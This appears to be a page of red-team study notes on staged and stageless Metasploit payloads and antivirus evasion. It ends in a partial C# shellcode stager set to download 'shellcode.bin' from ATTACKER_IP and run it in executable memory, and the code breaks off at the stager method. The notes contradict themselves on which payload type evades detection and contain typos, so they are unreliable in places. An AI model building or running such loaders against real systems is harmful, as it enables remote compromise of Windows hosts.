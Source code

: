 **Staged Payloads** 

- For staged payloads, there are often two steps. 
- The first step, step0 will create a reverse shell to the attacker's machine.
- Then the attacker or due to an automated process will drop a second payload to to placed in memory. 

**Staged vs Stageless**

- Stageless can be harder to detect by AV since the first payload is usually only a reverse shell, while the second payload dropped only runs in memory. 
- A staged payload can be easily be detected by AVs since it's typically a larger file, being both a reverse shell and the added. 

**Stagers in Metasploit** 

stageless payload - windows/x64/shell_reverse_tcp
staged payload - windows/x64/shell/reverse_tcp


VirtualAlloc - reserve memory for the shellcode 
CreateThread - Create a thread from the current process
WaitForSignleObject - Used for thread synchronisation, waits for another thread before finishing

WebClient - create a webclient object to make a request to download the shellcode 
ServerCertificateValidcationCallback - Ignore SSL verification
DownloadData = Download the shellcode from the specified URL

PAGE_EXECUTE_READWRITE - make the shellcode in memory executable
Marshal.Copy - copy the shellcode variable to another

WaitForSingleObject - Waits for the shellcode to execute before closing the program
```csharp
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

```